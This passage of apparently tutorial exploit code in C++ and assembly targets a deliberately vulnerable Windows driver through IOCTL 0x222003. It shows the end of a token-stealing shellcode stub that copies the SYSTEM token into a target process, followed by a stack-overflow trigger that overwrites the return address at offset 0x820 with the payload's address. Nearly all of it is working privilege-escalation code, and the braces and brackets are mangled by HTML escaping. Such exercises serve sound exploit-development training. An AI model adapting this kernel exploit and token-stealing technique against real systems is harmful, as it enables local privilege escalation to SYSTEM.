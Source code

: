 ```

        mov edx, [eax + TOKEN_OFFSET]; Get SYSTEM process nt!_EPROCESS.Token
        mov[ecx + TOKEN_OFFSET], edx; Replace target process nt!_EPROCESS.Token
        ; with SYSTEM process nt!_EPROCESS.Token
        ; End of Token Stealing Stub

        popad; Restore registers state

        ; Kernel Recovery Stub
        xor eax, eax; Set NTSTATUS SUCCEESS
        add esp, 12; Fix the stack
        pop ebp; Restore saved EBP
        ret 8; Return cleanly
    `}`
`}`

HANDLE GetDeviceHandle() `{`
    HANDLE hRet = NULL;
    hRet = CreateFile(
        DEVICE_NAME,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,
        NULL
    );
    if (hRet == INVALID_HANDLE_VALUE) `{`
        std::cout &lt;&lt; "Error open Device with error code " &lt;&lt; GetLastError() &lt;&lt; std::endl;
    `}`
    return hRet;
`}`
// Just Communicate with Driver
VOID TriggerStackOverFlow(DWORD dwCTLCode) `{`
    HANDLE hDev = GetDeviceHandle();
    if (!hDev)
        return;
    std::cout &lt;&lt; "We Get handle is :" &lt;&lt; std::hex &lt;&lt; hDev &lt;&lt; std::endl;

    DWORD dwSize = 0x824;
    DWORD dwRetSize = 0;
    PVOID ExpAddress = &amp;TokenStealingPayloadWin7;
    PVOID RetAddress = NULL;
    CHAR *Buffer = (CHAR*)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwSize);
    RtlFillMemory(Buffer, dwSize, 'A');

    // calculate ret address
    RetAddress = &amp;Buffer[0x820];
    *(PULONG)RetAddress = (ULONG)ExpAddress;

    OutputDebugString(L"[+]  =========== Kernel Mode  =============== [+]");
    DeviceIoControl(hDev, dwCTLCode, Buffer, dwSize, NULL, 0, &amp;dwRetSize, NULL);
    OutputDebugString(L"[+]  =========== IOCTL Finish =============== [+]");

    std::cout &lt;&lt; "Finish Send IOCTL" &lt;&lt; std::endl;
    HeapFree(GetProcessHeap(), 0, Buffer);
    Buffer = NULL;
`}`
int main()
`{`
    std::cout &lt;&lt; "[+] Exerciese: Stack Overflow\n"; 
    TriggerStackOverFlow(0x222003);
```